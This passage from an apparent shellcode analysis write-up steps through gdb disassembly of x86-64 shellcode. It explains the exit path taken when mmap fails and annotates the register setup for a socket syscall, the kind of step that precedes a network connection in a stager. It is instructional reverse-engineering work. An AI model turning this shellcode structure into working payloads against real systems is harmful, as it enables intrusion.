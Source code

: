 - signed -> mmap failed and it returned the value -1

- unsigned -> mmap succeeded, returning the address of the mapping.

If the call to mmap **failed**, then the shellcode jumps to the address `0x4000e5`, which contains the following instructions:

```bash
(gdb) x/5i 0x4000e5
  #  0x4000e5:    push   0x3c
  #  0x4000e7:    pop    rax
  #  0x4000e8:    push   0x1
  #  0x4000ea:    pop    rdi
  #  0x4000eb:    syscall
```

The syscall identified by the hex number **0x3c **is `sys_exit`.

In this case the first argument passed to the syscall is the number **0x1**, stored inside the register `RDI`.

In conclusion, if the call to `sys_mmap` fails, then the shellcode calls `sys_exit`, terminating its execution and returning the exit code 1.

Back to the successful case, after the previous **jump signed** instruction (`js 0x4000e5`), we have this:

```bash
(gdb) disassemble $rip,+21
# Dump of assembler code from 0x400094 to 0x4000a9:
# => 0x0000000000400094:  push   0xa
#    0x0000000000400096:  pop    r9
#    0x0000000000400098:  push   rax
#    0x0000000000400099:  push   0x29
#    0x000000000040009b:  pop    rax
#    0x000000000040009c:  cdq    
#    0x000000000040009d:  push   0x2
#    0x000000000040009f:  pop    rdi
#    0x00000000004000a0:  push   0x1
#    0x00000000004000a2:  pop    rsi
#    0x00000000004000a3:  syscall 
#    0x00000000004000a5:  test   rax,rax
#    0x00000000004000a8:  js     0x4000e5
```

As usual, let's analyze them one by one:

```nasm
; store the value 0xa inside the register R9
push   0xa
pop    r9

; push the value of RAX (pointer to mapping) on the stack
push   rax

; store the value 0x29 inside RAX (syscall sys_socket)
push   0x29
pop    rax

; clear RDX
cdq    

; store the value 0x2 in the register RDI
push   0x2
pop    rdi

; store the value 0x1 in the register RSI
push   0x1
pop    rsi
```